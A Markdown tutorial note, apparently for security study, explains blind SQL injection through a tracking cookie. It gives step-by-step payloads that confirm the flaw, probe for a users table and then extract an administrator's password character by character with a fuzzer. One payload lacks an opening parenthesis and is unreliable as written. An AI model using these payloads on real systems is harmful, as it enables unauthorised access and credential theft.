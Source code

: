 ```yaml
---
title: Conditional Responses
date: 2025-10-13
description: Notes of blind SQL injection with conditional responses.
weight: 1
---
```


## Conditional Responses

A type of blind SQL injection is triggering conditional responses.

For example, there is a request to an application including a cookie header like:

```text
Cookie: TrackingId=xxx
```

And the backend query may be:

```sql
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'xxx'
```

Suppose that the frontend will display a message `Welcome back` if the query is valid. Otherwise, it won't display.

This is possible to be injected blindly.

If there is a table named `users` that stores information of users, and our goal is to gain `administrator` information, we can use the following payload to find out the injection vulnerability:

```text
Cookie: TrackingId=xxx' AND '1'='1
Cookie: TrackingId=xxx' AND '1'='2
```

If the frontend changed, then it is injectable.

Then we can use `SELECT` to determine whether the table `users` exists.

```text
Cookie: TrackingId=xxx' AND (SELECT 'a' FROM users LIMIT 1)='a
```

If the message `Welcome back` is displayed, it can be confirmed that `users` table exists.

To determine whether the user `administrator` exists, we can simply modify the payload above to:

```text
Cookie: TrackingId=xxx' AND SELECT 'a' FROM users WHERE username='administrator')='a
```

After that, we can find out the length of password by using the following payload:

```text
Cookie: TrackingId=xxx' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>$guess-length$)='a
```

The `$guess-length$` is a series of numbers to determine the length of password.

Then, we can retrieve the password by using the `SUBSTRING` function. The payload is:

```text
Cookie: TrackingId=xxx' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username = 'administrator') = 'a
```

By changing `a` to any other characters until the message `Welcome back` shown, we can finally get the first character of the password.

In [Zed Attack Proxy (ZAP)](https://www.zaproxy.org) or [Burp Suite](https://portswigger.net), modify the request to

```text
Cookie: TrackingId=xxx' AND (SELECT SUBSTRING(password,$index$,1) FROM users WHERE username = 'administrator') = '$guess-char$
```

Then use the fuzz tool and we can retrieve the password.
